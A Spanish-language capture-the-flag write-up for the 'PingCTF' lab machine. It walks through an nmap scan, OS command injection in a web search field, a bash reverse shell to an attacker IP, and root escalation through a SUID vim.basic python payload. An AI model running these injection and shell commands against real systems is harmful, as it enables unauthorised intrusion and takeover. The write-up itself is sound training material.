



# PingCTF - Writeup

## Resumen
PingCTF es una maquina de categoria 'facil' que nos presenta una pagina web vulnerable a OS Command Injection con binarios SUID vulnerables dentro de la maquina para escalar privilegios.


## Paso N1: Reconocimiento
Usamos nmap para el reconociminento basico de puertos TCP para escanear sus determinados servicios y versiones.
```
nmap 172.17.0.2 -sS -sVC -n -Pn -p- --open --min-rate 5000 
```


Esta abierto unicamente el puerto 80, por lo que habra que investigar la pagina para buscar una vulnerabilidad.

## Paso N2: Visualizacion web e inyeccion 
Al entrar, podemos ver que la web se compone unicamente de un buscador, por lo que intentamos una inyeccion a nivel de sistema operativo (OS Command Injection) anteponiendo ";" del comando (usamos el ; porque actúa como un separador de comandos en sistemas operativos tipo Unix/Linux). Utilizaremos el siguiente comando mientras escuchamos en el puerto 4040 con nc para poder lograr una reverse shell ```nc -lvnp 4040```.
```
;bash -c 'bash -i >& /dev/tcp/172.17.0.1/4040 0>&1'
```


Logrando asi obtener una reverse shell.

## Paso N3: Busqueda de binarios para escalar privilegios
Una vez ya dentro de la maquina ejecutamos ```sudo -l``` y nos devuelve ```bash: sudo: command not found``` lo que directamente nos dice que sudo no es ejecutable en este sistema, por lo que pasamos a buscar binarios SUID vulnerables.
```
find / -perm -4000 2>/dev/null
```


## Paso N4: Explotacion de binarios SUID
Podemos observar que esta integrado el binario vulnerable ```/usr/bin/vim.basic``` por lo que pasamos a explotarlo con el siguiente comando
```
vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```
Una vez ejecutado, seremos usuarios root.

